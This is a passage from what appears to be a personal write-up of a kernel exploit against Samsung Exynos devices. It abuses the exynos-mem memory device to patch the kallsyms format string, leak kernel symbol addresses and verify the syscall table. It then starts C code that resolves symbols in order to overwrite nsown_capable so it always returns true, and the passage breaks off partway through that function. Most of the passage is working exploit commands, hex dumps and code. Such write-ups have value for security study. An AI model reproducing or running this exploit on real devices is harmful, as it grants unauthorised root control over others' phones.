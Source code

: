 It seems like it found the format and patched it! Let's see whether it actually changed the format and check if `kallsyms` works now:
```shell
/ $ ./exynos-mem 1614847620 10 0 | hexdump -C
processed 10 bytes
00000000  25 70 20 20 25 63 20 25  73 0a                    |%p  %c %s.|
0000000a
/ $ cat /proc/kallsyms | grep nsown_capable
80027c9c  T nsown_capable
```

That made me really excited, it actualy worked!

Now, we simply need to find the start of the text section, and find the offset from there to add to our `kernel code start`:
```shell
/ $ cat /proc/kallsyms | head -n20
  (null)  t __vectors_start
80008240  T asm_do_IRQ
80008240  T _stext
...
```
We can see _stext at `0x80008240`, which isn't page aligned, meaning the actual start is `0x80008000` which actually simplifies some calculations for us since our starting offset is also `0x8000`.

This means, `nsown_capable` resides at `0x60027c9c`. At this point, I had to fact check, so I checked the syscall table to ensure I am okay with the offsets:
```shell
/ $ cat /proc/kallsyms | grep sys_call_table
8000e348  T sys_call_table
/ $ ./exynos-mem 1610670920 1024 0 | hexdump -C
processed 1024 bytes
00000000  d8 d1 02 80 e4 25 02 80  24 f7 01 80 34 eb 0b 80  |.....%..$...4...|
00000010  9c eb 0b 80 48 db 0b 80  74 db 0b 80 cc af 03 80  |....H...t.......|
00000020  68 db 0b 80 fc c1 0c 80  9c bf 0c 80 b0 4b 0c 80  |h............K..|
00000030  38 d3 0b 80 cc af 03 80  98 be 0c 80 a8 d5 0b 80  |8...............|
00000040  d4 07 06 80 cc af 03 80  cc af 03 80 30 e2 0b 80  |............0...|
00000050  a0 f8 02 80 c0 b4 0d 80  cc af 03 80 68 08 06 80  |............h...|
00000060  dc 0c 06 80 cc af 03 80  70 85 02 80 cc af 03 80  |........p.......|
00000070  cc af 03 80 a0 e5 02 80  cc af 03 80 cc af 03 80  |................|
00000080  cc af 03 80 24 d3 0b 80  88 3d 04 80 cc af 03 80  |....$....=......|
00000090  78 4b 0e 80 d4 db 02 80  88 c4 0c 80 60 bf 0c 80  |xK..........`...|
000000a0  70 bf 0c 80 68 80 0d 80  d8 65 0c 80 58 fa 02 80  |p...h....e..X...|
000000b0  cc af 03 80 60 94 0a 80  34 08 06 80 94 0d 06 80  |....`...4.......|
```
This looks like a syscall table, so that means we're understanding everything correctly.

Let's now add the code to pwn this by setting `nsown_capable` to simply `return true;` always:
```c
uint32_t extract_sym_addr(char* sym) {
    FILE *fp; 
    char line[MAX_SIZE];
    uint32_t addr = 0;

    fp = fopen(KALLSYMS, "r");
    if (!fp) {
        perror("fopen /proc/kallsyms");
        exit(1);
    }

    while (fgets(line, sizeof(line), fp)) {
        char sym_name[MAX_SYM_SIZE];
        unsigned long parsed_addr;
        char type;

        if (sscanf(line, "%lx %c %127s", &parsed_addr, &type, sym_name) == 3) {
            if (!strcmp(sym_name, sym)) {
```